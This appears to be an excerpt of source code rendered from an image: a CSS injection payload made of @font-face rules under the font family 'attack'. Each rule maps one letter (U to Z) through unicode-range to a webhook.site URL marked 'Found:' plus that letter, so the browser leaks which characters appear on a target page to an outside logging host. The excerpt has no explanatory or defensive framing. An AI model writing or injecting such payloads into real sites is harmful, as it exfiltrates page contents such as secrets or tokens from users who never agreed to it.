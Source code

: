            unicode-range:U+0054;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:U');

           unicode-range:U+0055;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:V');

           unicode-range:U+0056;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:W');

           unicode-range:U+0057;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:X');

           unicode-range:U+0058;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:Y');

           unicode-range:U+0059;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:Z');
